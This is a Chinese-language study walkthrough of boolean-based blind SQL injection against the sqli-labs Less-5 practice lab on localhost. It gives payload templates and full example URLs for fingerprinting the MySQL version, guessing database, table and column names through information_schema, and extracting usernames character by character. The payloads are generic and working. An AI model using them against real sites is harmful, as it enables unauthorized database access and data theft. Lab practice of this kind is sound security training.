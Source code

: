 # 1.确定版本号

```javascript
and left(version(),1)=NUM
```

列如：

http://127.0.0.1/sql-labs/Less-5/?id=1' and left(version(),1)=5--+



# 2.确定数据库长度

```javascript
and length(database())=NUM
```

列如：

http://127.0.0.1/sql-labs/Less-5/?id=1' and length(database())=8--+



# 3.逐字段猜解数据库名

```javascript
and left(database())=字母
```

列如：

http://127.0.0.1/sql-labs/Less-5/?id=1' and left(database(),1)='s' --+

http://127.0.0.1/sql-labs/Less-5/?id=1' and left(database(),2)='se' --+



# 4.逐字段猜解表名

```javascript
and ascii(substr((select table_name from information_schema.tables 
where table_schema=DATABASE_NAME limit 0,1),1,1))=NUM(a=97,A=65)
```

列如：

http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()  limit 0,1),1,1))=101--+



## 获取该表第二个字段：

http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()  limit 0,1),2,1))=109--+



## 获取第二个表第一个字段：

http://127.0.0.1/sql-labs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()  limit 1,1),1,1))=114 --+



# 5.猜解指定表列名

```javascript
and+ascii(substr((select+column_name+from+information_schema.columns+
where+table_name='TABLE_NAME'+limit NUM(第几列),1),NUM(该列名的第几个字符),1))=--+
```

http://127.0.0.1/sql-labs/Less-5/?id=1'+and+ascii(substr((select+column_name+from+information_schema.columns+where+table_name='users'+limit 0,1),1,1))=--+



## 获取该列名第二个字段：

http://127.0.0.1/sql-labs/Less-5/?id=1'+and+ascii(substr((select+column_name+from+information_schema.columns+where+table_name='users'+limit 0,1),2,1))=--+



## 获取第二个列名第一个字段：

http://127.0.0.1/sql-labs/Less-5/?id=1'+and+ascii(substr((select+column_name+from+information_schema.columns+where+table_name='users'+limit 1,1),2,1))=--+



# 6.获取指定列内容

```javascript
and+ORD(MID((SELECT IFNULL(CAST(COLUMN_NAME(字段名) AS CHAR),0x20)FROM
security.users ORDER BY id LIMIT 0,1),NUM(第几个字段),1))=NUM(ascii码)--+
```



http://127.0.0.1/sql-labs/Less-5/?id=1'+and+ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+



## 获取第二个字段：

http://127.0.0.1/sql-labs/Less-5/?id=1'+and+ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),2,1))=68--+

